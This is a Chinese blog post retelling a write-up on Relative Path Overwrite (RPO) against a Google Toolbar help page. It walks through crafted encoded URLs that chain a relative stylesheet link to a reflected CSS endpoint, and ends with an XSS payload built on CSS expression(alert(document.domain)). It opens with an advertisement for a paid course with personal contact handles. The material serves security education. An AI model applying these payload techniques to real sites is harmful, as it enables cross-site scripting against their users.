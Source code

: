 #原文链接
`https://blog.innerht.ml/rpo-gadgets/`

#前言
最近，我做了一个培训，主要是关于漏洞挖掘的进阶经验谈，会有大量的国外文章的分析和骚姿势，收费是2000元，50课时，面向有基础的学员，毕业包回本。我的QQ `1119544572` WeChat `baiheming123456` contact me～

#正文
首先先说什么是RPO(Relative Path Overwrite)相对路径覆盖，在Google的工具栏中找到了一个页面`http://www.google.com/tools/toolbar/buttons/apis/howto_guide.html`
其中存在RPO的漏洞代码是
```html
<html>
<head>
<title>Google Toolbar API - Guide to Making Custom Buttons</title>
<link href="../../styles.css" rel="stylesheet" type="text/css" />
[..]
```
存在问题的是link标签中的**../../styles.css**这是通过相对路径进行加载，当这样的时候我们吧目光转移到服务器的解析上，不同的服务器都有不同的解析特点，比如JSP的`;`当JSP解析遇到了分号之后后面的都是作为参数，而浏览器会当作路径
`https://test.com/Jsptest/aaa;/test`此时浏览器会认为还有一个test在aaa目录下。这里还要说一下浏览器的处理对于目录浏览器用`/`分隔，下面吧上面的内容带到实力中

在google的工具栏中也有解析的特点
`http://www.google.com/tools/toolbar/buttons/apis%2fhowto_guide.html`服务器处理的时候会对请求路径的内容进行解码，也就是说`2f`会被当作`/`解析然而浏览器不这么想，它认为`apis%2fhowto_guide.html`是一个文件，而这个时候再去执行
```html
<link href="../../styles.css" rel="stylesheet" type="text/css" />
```
他就会去`http://www.google.com/tools/`下寻找`styles.css`这样还是没啥意义的
##峰回路转
`http://www.google.com/tools/fake/..%2ftoolbar/buttons/apis%2fhowto_guide.html`我们可以发现有一个/fake/..%2f这样的话还是会访问到`howto_guide.html`而且还可以让浏览器认为自己在`/tools/fake/`浏览器就会加载`http://www.google.com/tools/fake/styles.css`也就是说我们可以加载`http://www.google.com/tools/*/styles.css`

#组合
在寻找敏感Endpoint的时候发现了这个`http://www.google.com/tools/toolbar/buttons/gallery`当你访问的时候会跳转到`http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1`这里刚刚好符合我们的利用条件即在tools目录下面。
然而这个Endpoint还有一个有趣的点就是`q`参数，当我们访问`http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&q={}*{backgound:red}`
![PIC](https://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/RPO/css-red.png)
这里就是一个可以反射的点了，那么我们怎么才能让这两个点相结合呢
当我们访问`http://www.google.com/tools/toolbar/buttons/gallery?q={}*{backgound:red}`有参数的时候就会跳转到`http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&q={}*{backgound:red}`
那么万事俱备了，我们需要的就是从刚刚的地方去利用RPO漏洞与这个端点结合

#利用
`http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/howto_guide.html`

```
/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/../../style.css
浏览器会认为目前在的目录是apis向上之后就到了 下面的
--->

/tools/toolbar/buttons/gallery?q=%0a{}*{background:red}/style.css
访问之后会跳转到

-->

/gadgets/directory?synd=toolbar&frontpage=1&q=%0a{}*{background:red}/style.css

```
这是我们的
```html
<link href="../../styles.css" rel="stylesheet" type="text/css" />就变成了
<link href="/gadgets/directory?synd=toolbar&frontpage=1&q=%0a{}*{background:red}/style.css" rel="stylesheet" type="text/css" />
就把{}*{background:red}包含了
```
将 payload修改为XSS的payload`expression(alert(document.domain))`就可以完成一次XSS攻击了
#最终payload
`
http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bx%253Aexpression(alert(document.domain))%257D/..%2f/apis/
`
![PIC](https://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/RPO/alert.png)

#总结
看都会一脸蒙蔽可见挖掘的过程有多复杂，我一直在路上！
